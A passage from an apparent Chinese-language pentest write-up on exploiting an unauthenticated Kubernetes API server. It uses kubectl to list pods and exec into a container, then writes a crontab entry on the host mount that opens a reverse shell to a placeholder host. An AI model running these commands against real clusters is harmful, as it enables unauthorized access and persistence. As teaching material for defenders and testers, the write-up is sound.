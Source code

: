 ```plain
kubectl -s 192.168.17.144:8080 get pod -n default
```

[![](assets/1699842580-ecac7a3e21e1d2ce3ba786eeba668d1d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231025165454-2a475030-7314-1.png)  
Step 4：进入容器(由于上面迟迟处于pending状态，也许时内存问题，这里不再过多赘述，直接向下写流程)

```plain
kubectl -s 192.168.17.144:8080 --namespace=default exec -it myapp2 bash
```

```plain
Step 5：写计划任务
```

```plain
echo -e "* * * * * root bash -i >& /dev/tcp/x.x.x.x/8888 0>&1\n" >> /mnt/etc/crontab
```

Step 6：成功获取shell

[![](assets/1699842580-9da6ccad4958d19e01b238a8d5294d07.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231025165531-40489a4c-7314-1.png)

**接口扩展**  
补充一些可用接口：

